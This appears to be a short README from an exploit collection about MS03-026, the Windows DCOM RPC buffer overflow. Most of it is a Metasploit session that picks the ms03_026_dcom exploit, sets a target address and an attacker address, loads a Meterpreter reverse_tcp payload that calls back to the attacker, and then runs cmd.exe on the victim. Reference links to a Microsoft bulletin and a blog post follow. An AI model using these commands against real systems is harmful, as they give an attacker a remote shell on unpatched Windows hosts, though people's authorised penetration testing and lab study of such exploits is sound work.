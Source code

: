 # MS03-026

MS03-026

Vulnerability reference:
 * [MS03-026](https://technet.microsoft.com/library/security/ms03-026)
 
## msf Usage
* [YouTube-ms03 026](https://www.youtube.com/watch?v=OZwQo8kqdBM)  
```
msf > search ms03_026
msf > use exploit/windows/dcerpc/ms03_026_dcom
msf exploit(ms03_026_dcom) > set RHOST 192.168.229.129
msf exploit(ms03_026_dcom) > set LHOST 192.168.229.35
msf exploit(ms03_026_dcom) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms03_026_dcom) > exploit

meterpreter > execute -f cmd.exe -c -1
```

## References
[Microsoft Windows DCOM RPC接口长主机名远程缓冲区溢出漏洞](http://blog.chinaunix.net/uid-286494-id-2134482.html)